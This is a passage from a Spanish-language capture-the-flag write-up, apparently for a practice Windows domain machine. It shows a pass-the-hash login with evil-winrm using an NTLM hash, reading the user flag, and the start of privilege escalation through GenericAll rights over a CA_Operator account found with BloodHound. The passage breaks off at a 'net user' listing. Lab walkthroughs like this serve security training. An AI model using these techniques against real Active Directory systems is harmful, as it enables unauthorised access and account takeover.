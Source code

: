 - Ahora nos conectamos usando `evil-winrm` y vemos la flag.

```bash
❯ evil-winrm -i 10.10.11.41 -u management_svc -H a091c1832bcdd4677c28b5a6a1295584
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\management_svc\Documents> whoami
certified\management_svc
*Evil-WinRM* PS C:\Users\management_svc\Documents> 
```

- Aquí esta la flag.

```bash
*Evil-WinRM* PS C:\Users\management_svc\Desktop> dir


    Directory: C:\Users\management_svc\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---        3/16/2025   1:55 PM             34 user.txt


*Evil-WinRM* PS C:\Users\management_svc\Desktop> type user.txt
02ef5386d3b81fa941ce615ff8507d1d
*Evil-WinRM* PS C:\Users\management_svc\Desktop> 
```

- Cuando no encuentres la flag puedes usar el siguiente comando para ver si existe.

```bash
Get-ChildItem -Path C:\ -Filter "user.txt" -Recurse -ErrorAction SilentlyContinue
Get-Content C:\Users\management_svc\Desktop\user.txt
```

## Escalada de privilegios

- Si volvemos al `BloodHound` y ahora vemos que podemos hacer con `management_svc` vemos que tenemos `GenericAll` sobre `CA_Operator` que es un usuario valido `GenericAll` te otorga todos los permisos sobre ese usuario como agregarlo o quitarlo de grupos, modificar atributos, cambiar su contraseña.

```bash
*Evil-WinRM* PS C:\Users\management_svc\Documents> net user ca_operator
User name                    ca_operator
Full Name                    Operator CA
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            5/13/2024 8:32:03 AM
Password expires             Never
Password changeable          5/14/2024 8:32:03 AM
Password required            Yes
User may change password     Yes

```